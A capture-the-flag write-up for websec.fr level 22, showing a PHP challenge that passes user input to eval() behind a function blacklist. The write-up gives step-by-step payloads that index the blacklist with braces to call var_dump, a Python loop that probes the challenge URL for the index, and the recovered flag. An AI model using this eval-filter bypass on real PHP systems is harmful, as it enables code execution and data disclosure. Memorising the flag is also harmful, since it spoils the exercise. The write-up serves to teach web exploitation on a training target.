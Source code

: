 ```
<?php
class A {
    public $pub;
    protected $pro ;
    private $pri;

    function __construct($pub, $pro, $pri) {
        $this->pub = $pub;
        $this->pro = $pro;
        $this->pri = $pri;
    }
}

include 'file_containing_the_flag_parts.php';
$a = new A($f1, $f2, $f3)               //object created
...
$blacklist = array_merge($funcs_internal, $funcs_extra, $funny_chars, $variables);  //array with the potential 
//function to dumb object $a
...
if ($insecure) {
    echo 'Insecure code detected!';
} else {
    eval ("echo $code;");
}
?>
```

STEP 1: Call the $blacklist array with {} since [] is blocked. 
      Payload: $blacklist{1}
OUTPUT: func_get_arg

STEP 2: Give the function of the i'th index of $blacklist array as $a
      Payload: $blacklist{1}($a)
OUTPUT: func_get_arg($a)

STEP 3: Find the index in $blacklist array which is var_dump

from requests import *
import sys
url = 'http://websec.fr/level22/index.php'
i = 0
while True:
    params = {'code': '$blacklist{{{0}}}'.format(i)}
    r = get(url, params=params)
    if r.text.find('var_dump') > -1:
        print str(i)
        sys.exit(0)
    else:
    	i=i+1
      
OUTPUT: 579

STEP 4: $blacklist{579}($a)
OUTPUT: 
  object(A)#1 (3) {
  ["pub"]=>
  string(17) "WEBSEC{But_I_was_"
  ["pro":protected]=>
  string(18) "told_that_OOP_was_"
  ["pri":"A":private]=>
  string(22) "flawless_and_stuff_:<}"
}

